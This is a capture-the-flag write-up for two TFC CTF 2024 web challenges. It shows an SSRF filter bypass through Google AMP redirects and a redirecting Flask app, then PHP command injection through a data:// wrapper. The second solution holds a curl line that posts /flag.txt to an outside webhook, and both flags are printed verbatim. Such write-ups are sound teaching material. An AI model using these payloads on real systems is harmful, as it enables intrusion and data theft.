


## Intro

This is the writeup for two of the web challenges presented in TFC CTF 2024. As I could not dedicate much time to it, I managed to solve 3 out of the 8 web challenges available. The web challenges were good quality, so kudos to the authors 😊.

## SURFING (Easy)

> My friend wanted a site on which he could steal other people's photos. Can you break into it ?

### Description

We are not given the source code of the challenge. The website is pretty simple:


We just have a functionality to visit URLs of our choice. It states that only Google URLs and PNG files are allowed to be visited. Let's see what happens if we do not meet these conditions:


Now we have a bit more information. The URL we introduce must start with `http://google.com/`, so let's introduce it:



As we can see, we get the HTML of the response. If we take a look at it, we can see that it responded with a `404 Not Found` error, as it tried to visit `http://google.com/.png` (which does not exist). Also, when looking at the website's source code, we can notice an interesting HTML comment:

```html
<!--  Reminder ! Change creds for admin panel on localhost:8000  ! -->
```

Enough to work with, let's move on to the solution.

### Solution

At this point, we can assume that we have to achieve SSRF to visit the admin panel and that this panel will have very weak credentials. However, the URLs we introduce must begin with `http://google.com/`, so, how do we get around this? Zero-day in Google?

Well, not this time. I remember reading that `google.com` could be used to perform URL redirections. For example:

```
http://google.com/url?q=http://example.com
```

The above link will redirect us to `http://example.com`, but it will prompt us with the following warning:



So this payload will not work for us. After some research, I finally found what I was looking for:

```
http://google.com/amp/s/example.com/
```

This time, it performed the redirection without any warnings. Let's try it in the challenge:


Again, we get a `404 Not Found`. The challenge seems to be appending `.png` to the end of the URL, without checking the type of content being accessed. We can easily bypass this by putting a URL-encoded `#` at the end of our URL, thus making `.png` a URL fragment:


It works! However, accessing `localhost:8000` with this approach (`http://google.com/amp/s/localhost:8000/%23`), did not work (don't know why :D). So, what I did was set up a simple Flask app with `ngrok` to redirect it again (it also worked with URL shorteners):

```python
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def home():
    return redirect('http://localhost:8000/')

if __name__ == '__main__':
    app.run(debug=True)
```

And now, when visiting `http://google.com/amp/s/<NGROK_URL>/%23`, it performed the redirect without any problems and we can now take a look at the source code of the admin panel:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Login</title>
</head>
<body>
    <form action="admin.php" method="get">
        <label for="username">Username:</label>
        <input type="text" id="username" name="admin" required>

        <label for="password">Password:</label>
        <input type="password" id="password" name="admin" required>
        <br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
```

Both the username and the password are `admin` and they are passed as GET parameters, so we just need to change our Flask app so that it redirects to `http://localhost:8000/admin.php?username=admin&password=admin` and get the flag!

```
Login successful. Welcome, admin!
Flag is TFCCTF{18fd102247cb73e9f9acaa42801ad03cf622ca1c3689e4969affcb128769d0bc}
```

## SAFE_CONTENT (Medium)

> Our site has been breached. Since then we restricted the ips we can get files from. This should reduce our attack surface since no external input gets into our app. Is it safe ?

> For the source code, go to /src.php 

### Description

The website is very similar to the one above:


Additionally, we are given the source code:

```php
<?php

function isAllowedIP($url, $allowedHost) {
    $parsedUrl = parse_url($url);
    
    if (!$parsedUrl || !isset($parsedUrl['host'])) {
        return false;
    }
    
    return $parsedUrl['host'] === $allowedHost;
}

function fetchContent($url) {
    $context = stream_context_create([
        'http' => [
            'timeout' => 5 // Timeout in seconds
        ]
    ]);

    $content = @file_get_contents($url, false, $context);
    if ($content === FALSE) {
        $error = error_get_last();
        throw new Exception("Unable to fetch content from the URL. Error: " . $error['message']);
    }
    return base64_decode($content);
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['url'])) {
    $url = $_GET['url'];
    $allowedIP = 'localhost';
    
    if (isAllowedIP($url, $allowedIP)) {
        $content = fetchContent($url);
        // file upload removed due to security issues
        if ($content) {
            $command = 'echo ' . $content . ' | base64 > /tmp/' . date('YmdHis') . '.tfc';
            exec($command . ' > /dev/null 2>&1');
            // this should fix it
        }
    }
}
?>
```

We have a pretty obvious objective, which is command injection. To reach it, we have to bypass a very poor URL check that just checks the host to be `localhost` and then make our fetched content be double base64-encoded so that the command is executed without any errors.

### Solution

The `isAllowedIP` function uses `parse_url` to check the URL's host. However, it does not check the protocol, so PHP wrappers such as `php://localhost` or `data://localhost` are valid. The first of these will not work, but the `data://` wrapper does not check the content type: `data://text/plain` and `data://localhost/plain` will do the same. We can abuse this to achieve command injection with the following payload:

```bash
# payload
a | curl -X POST -d @/flag.txt <WEBHOOK>
```

Now we double base64-encode it (the PHP wrapper decodes it once and then `fetchContent` decodes it again in the return) and we send the following URL to the challenge:

```
data://localhost/plain;base64,<DOUBLE_BASE64_PAYLOAD>
```

And get the flag in our webhook.

Flag: `TFCCTF{0cc5c7c5be395bb7e7456224117aed15b7d7f25933e126cecfbff41bff12beeb}`